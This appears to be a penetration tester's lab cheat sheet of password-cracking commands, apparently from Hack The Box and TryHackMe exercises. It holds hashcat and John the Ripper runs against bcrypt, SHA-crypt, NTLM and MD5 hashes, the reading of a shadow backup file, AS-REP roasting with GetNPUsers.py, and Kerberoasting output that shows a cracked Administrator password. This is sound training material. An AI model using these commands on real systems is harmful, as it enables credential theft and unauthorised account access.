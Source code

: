 sudo hashcat -m 3200 '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm' /usr/share/wordlists/rockyou.txt  
sudo hashcat -m 3200 -a 0 -o found '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm' /usr/share/seclists/Passwords/Leaked-Databases/rockyou-75.txt 
https://hashcat.net/wiki/doku.php?id=example_hashes
https://unicornsec.com/home/tryhackme-crack-the-hash
hashcat -m 1800 '$6$GQXVvW4EuM$ehD6jWiMsfNorxy5SINsgdlxmAEl3.yif0/c3NqzGLa0P.S7KRDYjycw5bnYkF5ZtB8wQy8KnskuWQS3Yr1wQ0' /usr/share/wordlists/rockyou.txt  

LTLM
hashcat -m 1000 -a 3 -w 3 a /usr/share/wordlists/rockyou.txt --show

hashcat hash /usr/share/wordlists/rockyou.txt -m 0 --force

/home/kali/tools/cracker/john/run/ssh2john.py id_rsa > id_rsa.hash

john id_rsa.hash --wordlist=/usr/share/wordlists/rockyou.txt



```
sunny@sunday:/backup$ cat shadow.backup
mysql:NP:::::::
openldap:*LK*:::::::
webservd:*LK*:::::::
postgres:NP:::::::
svctag:*LK*:6445::::::
nobody:*LK*:6445::::::
noaccess:*LK*:6445::::::
nobody4:*LK*:6445::::::
sammy:$5$Ebkn8jlK$i6SSPa0.u7Gd.0oJOT4T421N2OvsfXqAT1vCoYUOigB:6445::::::
sunny:$5$iRMbpnBv$Zh7s6D7ColnogCdiVE5Flz9vCZOMkUFxklRhhaShxv3:17636::::::

cat hash.txt
$5$iRMbpnBv$Zh7s6D7ColnogCdiVE5Flz9vCZOMkUFxklRhhaShxv3
hashcat -m 7400 hash.txt /usr/share/wordlists/rockyou.txt --force
```


```
 GetNPUsers.py -format john -no-pass -k -usersfile users -dc-ip 10.10.10.161 HTB.LOCAL/

john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt 

```
### Kerberos - 13100
```
root@kali:~# hashcat -a 0 -m 13100 tgs-administrator.hash /usr/share/wordlists/rockyou.txt –force
root@kali:~# hashcat -m 13100 tgs-administrator.hash –show
$krb5tgs$23$*Administrator$ACTIVE.HTB$active/CIFS~445*...[hash-value]...:Ticketmaster1968
```
